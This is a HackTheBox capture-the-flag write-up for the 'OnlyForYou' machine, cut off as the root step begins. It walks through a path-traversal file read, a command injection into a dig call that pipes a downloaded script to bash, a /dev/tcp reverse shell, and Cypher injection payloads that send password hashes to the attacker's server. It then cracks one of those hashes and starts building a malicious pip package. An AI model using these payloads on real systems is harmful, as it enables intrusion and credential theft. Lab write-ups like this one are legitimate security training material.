






# OnlyForYou - HackTheBox - Writeup
Linux, 30 Base Points, Medium


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `80`.

***User***: Found vhost `beta.only4you.htb`. Downloaded the source code and discovered an LFI vulnerability on the `/download` API. Utilizing this vulnerability, we were able to read the file `form.py` of `only4you.htb` and subsequently identified an RCE vulnerability within the email send logic. By exploiting this RCE vulnerability, we successfully gained a reverse shell as the `www-data` user. Furthermore, we came across local ports `8001` and `3000` (`Gogs`). We managed to log in to the web portal on port `8001` and extract the password hash for the user `john` using a `neo4j` query injection.

***Root***: After running `sudo -l`, we discovered that we have the ability to execute `pip download` as the `root `user. Leveraging this privilege, we created a malicious Python package with a reverse shell embedded in the `setup.py` file. Next, we uploaded this package to `Gogs `and proceeded to install the malicious Python package as `root`. As a result, we successfully obtained a reverse shell as `root`.


## OnlyForYou Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ nmap -sV -sC -oA nmap/OnlyForYou 10.10.11.210
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 22:48 IDT
Nmap scan report for 10.10.11.210
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e883e0a9fd43df38198aaa35438411ec (RSA)
|   256 83f235229b03860c16cfb3fa9f5acd08 (ECDSA)
|_  256 445f7aa377690a77789b04e09f11db80 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://only4you.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:


By utilizing `gobuster` to observe vhosts, we came across the following vhost:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ gobuster vhost -u http://only4you.htb/ -w ./subdomains-top1milion.txt -t 80 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://only4you.htb/
[+] Method:       GET
[+] Threads:      80
[+] Wordlist:     ./subdomains-top1milion.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/07/16 22:55:42 Starting gobuster in VHOST enumeration mode
===============================================================
Found: beta.only4you.htb (Status: 200) [Size: 2191]

```

Observing http://beta.only4you.htb/, we notice that the following web page is being hosted:



By clicking on [Source Code](http://beta.only4you.htb/source) we obtained the following file [source.zip](./source.zip).

After unzipping the file, we found the following content:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou/beta]
└──╼ $ ls -ltra
total 16
drwxrwx--- 1 root vboxsf 4096 Nov  1  2022 templates
drwxrwx--- 1 root vboxsf    0 Nov  1  2022 uploads
-rwxrwx--- 1 root vboxsf 1721 Nov  3  2022 tool.py
-rwxrwx--- 1 root vboxsf 4374 Nov 29  2022 app.py
drwxrwx--- 1 root vboxsf    0 Dec  4  2022 static
drwxrwx--- 1 root vboxsf    0 Dec  4  2022 .
drwxrwx--- 1 root vboxsf    0 Jul 16 23:04 ..

```

By observing the `app.py` file, we can see the following route:
```python
@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
```

Using the following HTTP request, we can obtain LFI:
```http
POST /download HTTP/1.1
Host: beta.only4you.htb
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36
Connection: close
Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiSW1hZ2UgZG9lc24ndCBleGlzdCEiXX1dfQ.ZLRSeQ.g7mWPjJOnBrXGAH2jWXCOfyz200; HttpOnly; Path=/ 
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0
Content-Length: 17

image=/etc/passwd
```

And we receive the following response:
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 16 Jul 2023 20:26:52 GMT
Content-Type: application/octet-stream
Content-Length: 2079
Connection: close
Content-Disposition: attachment; filename=passwd
Last-Modified: Thu, 30 Mar 2023 12:12:20 GMT
Cache-Control: no-cache
ETag: "1680178340.2049809-2079-393413677"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:996:996::/var/log/laurel:/bin/false
```

Let's read the Nginx vhost configuration file located at `/etc/nginx/sites-available/default`:
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 17 Jul 2023 18:53:44 GMT
Content-Type: application/octet-stream
Content-Length: 460
Connection: close
Content-Disposition: attachment; filename=default
Last-Modified: Sun, 04 Dec 2022 21:54:52 GMT
Cache-Control: no-cache
ETag: "1670190892.3086803-460-3723693304"

server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
	listen 80;
	server_name only4you.htb;

	location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
	}
}

server {
	listen 80;
	server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
```

We can find the applications located at `/var/www/only4you.htb` and `/var/www/beta.only4you.htb`.

After reading `/var/www/only4you.htb/app.py`, we get the following information:
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 17 Jul 2023 20:26:51 GMT
Content-Type: text/x-python; charset=utf-8
Content-Length: 1297
Connection: close
Content-Disposition: attachment; filename=app.py
Last-Modified: Mon, 12 Dec 2022 19:27:33 GMT
Cache-Control: no-cache
ETag: "1670873253.537084-1297-2541619842"

from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

@app.errorhandler(404)
def page_not_found(error):
    return render_template('404.html'), 404

@app.errorhandler(500)
def server_errorerror(error):
    return render_template('500.html'), 500

@app.errorhandler(400)
def bad_request(error):
    return render_template('400.html'), 400

@app.errorhandler(405)
def method_not_allowed(error):
    return render_template('405.html'), 405

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=80, debug=False)
```

We can see the `sendmessage` function imported from `form.py`. Let's examine the file `/var/www/only4you.htb/form.py`:
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 17 Jul 2023 20:28:16 GMT
Content-Type: text/x-python; charset=utf-8
Content-Length: 2025
Connection: close
Content-Disposition: attachment; filename=form.py
Last-Modified: Mon, 31 Oct 2022 17:25:34 GMT
Cache-Control: no-cache
ETag: "1667237134.0-2025-2730756853"

import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
	if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
		return 0
	else:
		domain = email.split("@", 1)[1]
		result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
		output = result.stdout.decode('utf-8')
		if "v=spf1" not in output:
			return 1
		else:
			domains = []
			ips = []
			if "include:" in output:
				dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
				dms.pop(0)
				for domain in dms:
					domains.append(domain)
				while True:
					for domain in domains:
						result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
						output = result.stdout.decode('utf-8')
						if "include:" in output:
							dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
							domains.clear()
							for domain in dms:
								domains.append(domain)
						elif "ip4:" in output:
							ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
							ipaddresses.pop(0)
							for i in ipaddresses:
								ips.append(i)
						else:
							pass
					break
			elif "ip4" in output:
				ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
				ipaddresses.pop(0)
				for i in ipaddresses:
					ips.append(i)
			else:
				return 1
		for i in ips:
			if ip == i:
				return 2
			elif ipaddress.ip_address(ip) in ipaddress.ip_network(i):
				return 2
			else:
				return 1

def sendmessage(email, subject, message, ip):
	status = issecure(email, ip)
	if status == 2:
		msg = EmailMessage()
		msg['From'] = f'{email}'
		msg['To'] = 'info@only4you.htb'
		msg['Subject'] = f'{subject}'
		msg['Message'] = f'{message}'

		smtp = smtplib.SMTP(host='localhost', port=25)
		smtp.send_message(msg)
		smtp.quit()
		return status
	elif status == 1:
		return status
	else:
		return status
```

As we can see, it runs the `dig` command with the email address domain. The command execution happens through this line: `result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)`. We can achieve command injection using the following email `evyatar9@htb.local|<COMMAND>`, and the command `dig txt evyatar9@htb.com|<COMMAND>` will be executed.

Let's test it using the following payload: `evyatar9@htb.com|ping -c1 10.10.14.14` (change the email HTML input type from email to text): 



And we receive the ping response:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ sudo tcpdump -i tun0 icmp
[sudo] password for evyatar9: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:37:50.165647 IP only4you.htb > 10.10.14.14: ICMP echo request, id 4, seq 1, length 64
23:37:50.165670 IP 10.10.14.14 > only4you.htb: ICMP echo reply, id 4, seq 1, length 64
```

Now we can obtain a reverse shell using the following payload: `evyatar9@htb.com|curl http://10.10.14.14:8000/rev.sh|bash`, where `rev.sh` is the shell script to establish the reverse shell:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ cat rev.sh
bash -i >& /dev/tcp/10.10.14.14/4242 0>&1
```

Sending it: 



As a result, we obtain a reverse shell as `www-data`:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from only4you.htb [10.10.11.210] 57708
bash: cannot set terminal process group (1014): Inappropriate ioctl for device
bash: no job control in this shell
www-data@only4you:~/only4you.htb$
```

By running `netstat -tulpan`, we obtain the following:
```console
www-data@only4you:~$ netstat -tulpan
netstat -tulpan
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1048/nginx: worker  
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -        
```

We can see the ports `3000` and `8001`.

Sending curl to port `3000`, we receive HTML that contains `meta name="description" content="Gogs is a painless self-hosted Git service" />`, which indicates that it is running `Gogs` (https://gogs.io/).

Now, let's use [chisel](https://github.com/jpillora/chisel) (or alternatively  [ghostunnel](https://github.com/ghostunnel/ghostunnel)) to gain access to the local ports.

First, we need to upload `chisel` to the target machine using `curl`:
```console
www-data@only4you:/tmp$ ls -ltra chisel
ls -ltra chisel
-rwxr-xr-x 1 www-data www-data 8384512 Jul 17 21:10 chisel
```

Start the `chisel server` on our host machine:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ ./chisel server -p 8888 --reverse --socks5 -v
2023/07/18 00:21:21 server: Reverse tunnelling enabled
2023/07/18 00:21:21 server: Fingerprint KI+Jc/QbX6frdPATmnrIB7FseJ1r55Z66im8d2SiEII=
2023/07/18 00:21:21 server: Listening on http://0.0.0.0:8888
```

Execute `chisel client` on the target machine to establish a reverse proxy:
```console
www-data@only4you:/tmp$ ./chisel client 10.10.14.20:8888 R:socks  &
```

And we establish the connection to the `chisel` server:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ ./chisel server -p 8888 --reverse -v
2023/07/18 00:21:21 server: Reverse tunnelling enabled
2023/07/18 00:21:21 server: Fingerprint KI+Jc/QbX6frdPATmnrIB7FseJ1r55Z66im8d2SiEII=
2023/07/18 00:21:21 server: Listening on http://0.0.0.0:8888
2023/07/18 00:24:03 server: session#1: Handshaking with 10.10.11.210:55560...
2023/07/18 00:24:04 server: session#1: Verifying configuration
2023/07/18 00:24:04 server: session#1: tun: Created (SOCKS enabled)
2023/07/18 00:24:04 server: session#1: tun: proxy#R:1080=>localhost:1080: Listening
2023/07/18 00:24:04 server: session#1: tun: Bound proxies
2023/07/18 00:24:04 server: session#1: tun: SSH connected
```

Now, we can utilize `firefox` with `proxychains` to browse the target machine's local ports (`socks5 127.0.0.1 1080`).

Upon browsing to http://127.0.0.1:3000/, we are presented with the following page:


Furthermore, by accessing http://127.0.0.1:8001/, we are greeted with the following page:


Both applications are located in the `/opt` directory:
```console
www-data@only4you:/opt$ ls -ltra
ls -ltra
total 16
drwxr-xr-x  4 root root 4096 Dec  8  2022 .
drwxr-xr-x 17 root root 4096 Mar 30 11:51 ..
drwxr-----  6 dev  dev  4096 Mar 30 11:51 internal_app
drwxr-----  6 dev  dev  4096 Jul 17 21:45 gogs
```

By attempting the admin:admin credentials, we successfully log in to port `8001`:



We can observe the completed task: `Migrated to a new database (neo4j)`.

As per the information available at https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j, we can employ the following injection to obtain the neo4j labels: `'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.14:8000/?label='+label as l RETURN 0 as _0 //` On http://127.0.0.1:8001/employees:



And we obtain the following:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.210 - - [18/Jul/2023 01:00:24] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:24] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:25] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:25] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:25] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:25] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:25] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:26] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:26] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:26] "GET /?label=employee HTTP/1.1" 200 -
```

We have two entities: `user` and `employee`. Let's read the content from the user using the following query: `' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.14:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //`:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ python3 -m http.server
...
10.10.11.210 - - [18/Jul/2023 01:03:57] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:03:57] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:03:57] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:03:57] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:03:57] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
```

We retrieve the hash of the `john` user, which is `8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918`. Let's proceed to crack it using `john`:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ cat hash
a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt hash --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 SSE2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ThisIs4You       (?)
1g 0:00:00:00 DONE (2023-07-18 01:06) 1.176g/s 12413Kp/s 12413Kc/s 12413KC/s VAGD/021091..TTTTTTTTTTTTTTTT
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

And we obtain the credentials `john:ThisIs4You`. Let's utilize it to establish an SSH connection:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ ssh john@only4you.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-146-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 17 Jul 2023 10:08:07 PM UTC

  System load:           0.1
  Usage of /:            86.2% of 6.23GB
  Memory usage:          49%
  Swap usage:            0%
  Processes:             244
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.210
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f52f

  => / is using 86.2% of 6.23GB


 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Apr 18 07:46:32 2023 from 10.10.14.40
john@only4you:~$ cat user.txt
0f6a874d59cae9c38ad03b81a94ccd8d
```

And we get the user flag `0f6a874d59cae9c38ad03b81a94ccd8d`.

### Root

By executing `sudo -l`, we receive the following output::
```console
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

We can [create a Malicious Python Packages and Code Execution via pip download](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/).

First, let's clone the following repository: https://github.com/wunderwuzzi23/this_is_fine_wuzzi and modify the `setup.py` with our reverse shell code:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ git clone https://github.com/wunderwuzzi23/this_is_fine_wuzzi
Cloning into 'this_is_fine_wuzzi'...
remote: Enumerating objects: 37, done.
remote: Counting objects: 100% (37/37), done.
remote: Compressing objects: 100% (33/33), done.
remote: Total 37 (delta 17), reused 8 (delta 1), pack-reused 0
Receiving objects: 100% (37/37), 9.14 KiB | 100.00 KiB/s, done.
Resolving deltas: 100% (17/17), done.
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ cat setup.py
cat setup.py 
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os

def RunCommand():
